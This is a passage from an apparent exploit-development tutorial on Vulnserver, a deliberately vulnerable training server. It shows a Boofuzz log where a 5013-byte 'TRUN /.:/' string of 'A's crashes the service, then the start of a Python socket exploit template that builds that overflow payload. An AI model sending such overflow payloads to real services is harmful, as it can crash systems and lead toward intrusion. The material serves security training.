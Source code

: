 This code can definitely be tidied up, the callback function could perform checks to see if we received the banner or not. Additionally for the rest of this miniseries, it might be handy if the "s_string"  was also taken from the command line. However this is probably overkill at this point in time. 

After running this we can see that on the 3rd payload our process crashes:

![image-20200408231515010](/assets/images/vulnserver/TRUN/image-20200408231515010.png)

Looking at our output we can see 5013 'A' Chars crashed the service:

```python
 Test Step: Fuzzing Node 'Request'
[2020-04-10 13:46:52,686]     Info: Sending 5013 bytes...
[2020-04-10 13:46:52,686]     Transmitted 5013 bytes: 54 52 55 4e 20 2f 2e 3a 2f 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  [---SNIP---]
[2020-04-10 13:46:52,688]     Info: Closing target connection...
[2020-04-10 13:46:52,688]     Info: Connection closed.
[2020-04-10 13:46:52,688]   Test Step: Sleep between tests.
[2020-04-10 13:46:52,688]     Info: sleeping for 1.000000 seconds
[2020-04-10 13:46:53,697] Test Case: 3: Request.no-name.3
[2020-04-10 13:46:53,697]     Info: Type: String. Default value: b'FUZZ'. Case 3 of 1441 overall.
[2020-04-10 13:46:53,698]     Info: Opening target connection (192.168.1.98:9999)...
[2020-04-10 13:46:53,698]     Info: Connection opened.
[2020-04-10 13:46:53,699]   Test Step: Callback function
[2020-04-10 13:46:53,699]     Info: Receiving...
[2020-04-10 13:46:58,861]     Received: 
```

Boofuzz produces an SQLite database so If we had been away from the system we could have looked in there for the crashing payload.

To confirm this we need to knock together some exploit code.

### Template Exploit code

For the example I will be using the following template:

```python
#!/usr/bin/python3
import socket
import argparse


def main(ip,port):
    com_socket = tcp_socket(ip,port)  
    #Pull the banner
    banner = com_socket.recv(1024)
    print(banner)
    payload = make_payload()
    print("Sending", len(payload),  "bytes")
    com_socket.send(payload)


def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*5000
    final_payload = prepend + pattern
```